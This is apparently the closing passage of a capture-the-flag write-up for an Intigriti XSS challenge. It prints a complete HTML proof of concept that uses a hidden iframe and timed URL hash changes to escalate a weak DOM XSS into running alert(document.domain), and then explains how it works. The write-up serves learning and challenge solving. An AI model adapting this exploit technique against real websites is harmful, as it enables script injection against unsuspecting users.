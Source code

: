 ```html
<!DOCTYPE html>
<html>
<head>
<meta charset="utf-8">
<script>
function setHash(hash) {
    frame.src = frame.src.split("#")[0] + "#" + hash
}

function pilot() {
    let hashes = [
        "?javascript:alert(document.domain)//&num1=x&operator=%3d&num2=searchQueryString",
        "?num1=location&operator=%3d&num2=x",
    ];
    for (let i = 0; i < hashes.length; i++) {
        // Chrome seems to do fine without it, but Firefox requires a small
        // delay after the hash has been set, to let the iframe run its
        // onhashchange handler
        setTimeout(() => { setHash(hashes[i]); }, i*100);
    }
}
</script>
</head>
<body>
<iframe id="frame" hidden onload="pilot()"
        src="https://challenge-1220.intigriti.io/#?num1=onhashchange&operator=%3d&num2=init">
</iframe>
</body>
</html>
```

I have a [PoC](https://acut3.xyz/intigriti-1220-ao56hrx42jg8/poc.html) online
if you want to give it a try.

Here are a few things to note:

* The hash changes are done in `pilot()`, which is called as the iframe's
  `onload` handler. This is to ensure we don't change the hash before the
initial page has been loaded completely.

* The hash is changed by changing the iframe's `src` attribute, and not it's
  `location`. Changing `frame.location` doesn't seem to fire the `onhashchange`
handler inside the iframe. If you know the reason for that, please let me know.

* The first hash change is done without any delay since we know the iframe is
  loaded completely. The second hash change is scheduled after a 100ms delay to
make sure the iframe's `onhashchange` handler has had time to do its job. This
is required on Firefox, which is is understandable, but for some reason Chrome
can execute the exploit reliably even without this delay. Not sure why.

## Final thoughts

A great challenge that showcases a beautiful way of escalating an otherwise
weak DOM XSS. This technique was new to me and required quite a few hours of
intense head scratching. Which of course made finding the solution even more
statisfying!

* * *
